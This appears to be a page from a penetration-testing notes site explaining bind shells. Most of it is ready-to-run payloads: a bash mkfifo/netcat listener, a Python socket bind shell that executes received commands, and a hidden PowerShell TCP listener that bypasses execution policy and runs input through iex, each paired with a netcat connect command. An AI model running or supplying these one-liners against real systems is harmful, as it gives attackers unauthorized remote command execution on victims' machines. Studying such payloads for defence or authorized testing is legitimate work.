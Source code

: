 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bind shell

A **Bind Shell** is a technique used to gain remote access to a victim's system by making it listen on a port and then connect to that listener. The shell sent to listen is attached to the target's shell on the target system letting us take control of the internal shell by connecting to it.

## <mark style="color:orange;">Basic script</mark>

* &#x20;Use and script that establishes a listening port on the target machine

{% code title="BindShell.sh" overflow="wrap" lineNumbers="true" %}
```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp $port >/tmp/f
```
{% endcode %}

* Connect to the listening port we have set using [_Netcat_](../networks/tools-and-utilities.md#netcat)

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}

## <mark style="color:orange;">Using Python</mark>

* &#x20;Use this command to establish a listening port on the target machine with _Python_

{% code overflow="wrap" lineNumbers="true" %}
```bash
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",$port));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

* Connect to the listening port we have set using _Netcat_

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}

## <mark style="color:orange;">Using PowerShell</mark>

* &#x20;Use this command to establish a listening port on a _Windows_ target machine using the PowerShell

{% code overflow="wrap" lineNumbers="true" %}
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]$port; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

* Connect to the listening port we have set using _Netcat_

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc $IP $port
```
{% endcode %}
